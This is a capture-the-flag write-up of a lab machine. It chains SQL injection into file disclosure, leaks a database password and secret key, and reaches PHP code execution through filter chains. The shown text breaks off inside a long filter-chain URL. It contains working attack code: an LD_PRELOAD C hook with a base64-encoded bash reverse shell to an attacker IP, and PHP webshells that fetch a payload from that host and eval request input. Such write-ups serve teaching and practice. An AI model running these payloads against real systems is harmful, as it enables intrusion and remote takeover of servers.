










## TL;DR

In this challenge we first detect `Two Order SQL Injection`, and exploit to get `LFI`.
Then, we analyze the source code and exploit it to get arbitrary PHP code execution. From there we add `LD_PRELOAD` trick to bypass disabled php function, and finally get `RCE`.

We privilege escalate to `root` using `setuid` on python, and then break out of the container using mounting on `/dev/nvme0n1p1` (the container was privileged).

We connect to `host machine`, and from there we move to the other container to grab the `root` flag from the `mysql` service.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Image Grid
|_http-server-header: Apache/2.4.62 (Debian)
```

let's add `moebius` to our `/etc/hosts`.

### From SQL Injection to LFI

this is the root page:


Okay, I started with `ffuf`, to check for endpoints:
```bash
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ ffuf -u 'http://moebius/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://moebius/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

album.php               [Status: 200, Size: 841, Words: 93, Lines: 19, Duration: 131ms]
image.php               [Status: 200, Size: 233, Words: 27, Lines: 5, Duration: 136ms]
index.php               [Status: 200, Size: 898, Words: 107, Lines: 25, Duration: 122ms]
index.php               [Status: 200, Size: 898, Words: 107, Lines: 25, Duration: 147ms]
```

We can see three endpoints.


We can see that `image.php` let's us view images, only if we supply the correct hash:


That's what happens when hash is not correct:


So, we can't achieve LFI, unless we know the exact hash of file, and that's mean we also know the exact content of the file, which makes the whole LFI useless.

Anyway, I've noticed that if i gives here `http://moebius/album.php?short_tag=cute`, append to "cute" also `'`, it'll crash.


I've detect `SQLi` and dumped whole database, however, nothing interesting popped up.
I saw two databases:
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --dbs
```


The databases `infromation_schema` which has nothing interesting, except configurations, and `web`, which i dumped here. 
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch -D web --dump
```


```bash
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ cat albums.csv 
name,short_tag,description
Cute cats,cute,Cutest cats in the world
Favourite cats,fav,My favourite ones
Smart cats,smart,So smart...
        
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ cat images.csv 
path
/var/www/images/cat1.jpg
/var/www/images/cat10.webp
/var/www/images/cat11.webp
/var/www/images/cat12.webp
/var/www/images/cat13.jpg
/var/www/images/cat14.webp
/var/www/images/cat15.webp
/var/www/images/cat16.webp
/var/www/images/cat2.jpg
/var/www/images/cat3.jpg
/var/www/images/cat4.jpg
/var/www/images/cat5.avif
/var/www/images/cat6.avif
/var/www/images/cat7.png
/var/www/images/cat8.webp
/var/www/images/cat9.webp
```

Okay, let's check for privileges:
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --privileges
```

We got only USAGE privilege, which means we can't modify files, so we won't get `RCE` in this way.


I used `--statements`, to retrieve SQL statements being run on DBMS, 

```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --statements
```


So, this is the query being executed:
```sql
SELECT id from albums where short_tag = 'cute' AND ...
```

We can verify this, as you can see, it executed the following command:
```sql
SELECT id from albums where short_tag = 'smart1' union select 1337 -- -' AND ...
```


After selecting the id from table `albums`, it needs to select path from table `images`.
It shows all the images on the page, saw it fetched them from the table `images`.

This is case like this CTF [https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/SQL-Injection-Routed.html](https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/SQL-Injection-Routed.html).

So, it takes the output of query1, in this case the id, and then put it inside another query, like this:
```sql
SELECT path from images where {something with the result from before}
```

Let's try giving this input, by this way the id that will be selected is `4 union select null`:
```sql
' union select "4 union select null" -- -
```


we get back "SELECT statements have a different number of columns". So, let's add more `,null` until there is no error.
```sql
' union select "4 union select null,null,null" -- -
```
Now we got an empty path, let's try to put inside `/etc/passwd` (on the third one, I tested)


```sql
' union select "4 union select null,null,'/etc/passwd'" -- -
```
We got hacking attempt!


Alright, let's obfuscate this using [https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=L2V0Yy9wYXNzd2Q](https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=L2V0Yy9wYXNzd2Q).


```sql
' union select "4 union select null,null,0x2f6574632f706173737764" -- -
```
and we got valid path.
```bash
/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd
```


let's get `/etc/passwd`:


well done, we achieve our `LFI`.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

I checked for `SSRF`, it didn't work


The php wrapper however is working, so we can get the source code using something like `php://filter/convert.base64-encode/resource=/var/www/html/index.php`.
So, this will be our query:
```bash
' union select "4 union select null,null,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d2f7661722f7777772f68746d6c2f696e6465782e706870" -- -
```

I used hackvertor, burp suite extension that is very useful.


and this is the source code we get


and after base64 decoding:
```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Image Grid</title>
<link rel="stylesheet" href="/style.css"> <!-- Link to external CSS file -->

</head>
<body>
<h1>Cat pictures</h1>
<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    
    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    
    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM albums";
    $result_ids = $conn->prepare($sql_ids);
    $result_ids->execute();
 
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($result_ids as $row) {
        // Get the image ID
        $short_tag = $row["short_tag"];
        $name = $row["name"];
        $description= $row["description"];
        
        // Create link to image.php with image ID
        echo '<div class="album-container">
        <h2 class="album-title"><a href="/album.php?short_tag='.$short_tag.'">'. $name. '</a></h2>
        <p class="album-description">'.$description.'</p>
      </div>';
    
    }
    echo "</div>\n";
} catch(PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
}

// Close the connection
$conn = null;

?>
</body>
</html>
```

Now, let's get the file `dbconfig.php`
```bash
┌──(agonen㉿kali)-[~/thm/Moebius]
└─$ curl 'http://moebius/image.php?hash=4cde56f17a2c5951e40a609cf0d464b5fa7b7f59471185eab67e196e7fd0bc66&path=php://filter/convert.base64-encode/resource=/var/www/html/dbconfig.php'
PD9waHAKLy8gRGF0YWJhc2UgY29ubmVjdGlvbiBzZXR0aW5ncwokc2VydmVybmFtZSA9ICJkYiI7CiR1c2VybmFtZSA9ICJ3ZWIiOwokcGFzc3dvcmQgPSAiVEFKbkY2WXVJb3Q4M1gzZyI7CiRkYm5hbWUgPSAid2ViIjsKCgokU0VDUkVUX0tFWT0nYW44aDZvVGxOQjlOMEhOY0pNUFlKV3lwUFIyNzg2SVE0STN3b1BBMUJxb0o3aHpJUzBxUVdpMkVLbUp2QWdPVyc7Cj8+
```

and after decoding:
```php
<?php
// Database connection settings
$servername = "db";
$username = "web";
$password = "TAJnF6YuIot83X3g";
$dbname = "web";


$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
?>
```

Since I have the secret key, I can create my own code that will give me the full `LFI`:
```php
<?php

$path =  $argv[1] ?? '';   // read from command line

if(str_ends_with($path, ".php"))
	$path = 'php://filter/convert.base64-encode/resource=' . $path;

$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
$hash = hash_hmac('sha256', $path, $SECRET_KEY);

$full_req = 'http://moebius/image.php?hash=' . hash_hmac('sha256', $path, $SECRET_KEY) . '&path=' .$path;

echo "full request is: \n" . $full_req . "\n";

$content = file_get_contents( $full_req );

if(str_ends_with($path, ".php"))
	$content = base64_decode( $content );

echo $content;
```

For example:
```bash
php fetch.php '/etc/passwd'
```


Or, get `/var/www/html/index.php`
```bash
php fetch.php '/var/www/html/index.php'
```


### From LFI to php code execution

we can use technique which is php wrapper chain, using this [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) to get RCE, php code executed.

This is quite simple, just execute something like this:
```bash
python3 php_filter_chain_generator.py --chain '<?php echo 1337; ?>'
```

I'll create the file `fetch.php` for wrapping:
```php
<?php

$path =  $argv[1] ?? '';   // read from command line

if(str_ends_with($path, ".php"))
        $path = 'php://filter/convert.base64-encode/resource=' . $path;

$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
$hash = hash_hmac('sha256', $path, $SECRET_KEY);

$full_req = 'http://moebius/image.php?hash=' . hash_hmac('sha256', $path, $SECRET_KEY) . '&path=' .$path;

echo "full request is: \n" . $full_req . "\n";

$content = file_get_contents( $full_req );

if(str_ends_with($path, ".php"))
        $content = base64_decode( $content );

echo $content;
?>
```

and full command will be:
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php echo 1337; ?>' )
```
and we got our php code execution.


However, it isn't over...
I tried to execute os commands:
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php system("id"); ?>' )
```

and I realized this function is disabled.


I checked using `phpinfo()` which functions are disabled;
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>' )
```

as you can see, all the cool functions are disabled :(


### bypass disabled php functions

I learned from here how to exploit `LD_PRELOAD` in order to get `RCE`.

[https://tryhackme.com/room/bypassdisablefunctions](https://tryhackme.com/room/bypassdisablefunctions)

This will be our `hook.c`, I've already put here the payload from `penelope`:
```C
#define  _GNU_SOURCE
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

__attribute__ ((__constructor__)) void preloadme(void) {
  unsetenv("LD_PRELOAD"); // I want the command to being execute only once

//   system(getenv("CMD"));
  system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash");

}
```
We can compile it with this command
```bash
gcc -m64 -shared -fPIC -o hook.so hook.c -ldl
```
Now, let's set simple http python server for getting the `hook.so`:
```bash
python3 -m http.server 8081
```


Next, our webshell will be:
```php
<?php
$h=curl_init("http://192.168.132.168:8081/hook.so");
curl_setopt($h,19913,1);
file_put_contents("/tmp/hook.so",curl_exec($h));

// putenv('CMD=' . $_GET['cmd']);
putenv("LD_PRELOAD=/tmp/hook.so");
mail('a','a','a','a');
?>
```

First, let's create our webshell for php command execution (base64 payload):
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?=eval(base64_decode($_GET[0]))?>')
```

and we get this:
```bash
http://moebius/image.php?hash=011087a631de7dbb6e8228b254de3979eb1c0c7d5bf3aed42d6b75fd55b08162&path=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7
|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv
.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16
|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv
.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.bas
e64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|conver
t.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode
|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-
16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|conv
ert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|conv
ert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF
8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.ic
onv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.
SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.
iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG
5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|c
onvert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.C
P949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030
010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.
iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|conv
ert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-1
6|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_J
ISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.b
ase64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|conve
rt.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|co
nvert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|conv
ert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|conv
ert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.ico
nv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.
IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-de
code|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|conve
rt.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.b
ase64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UT
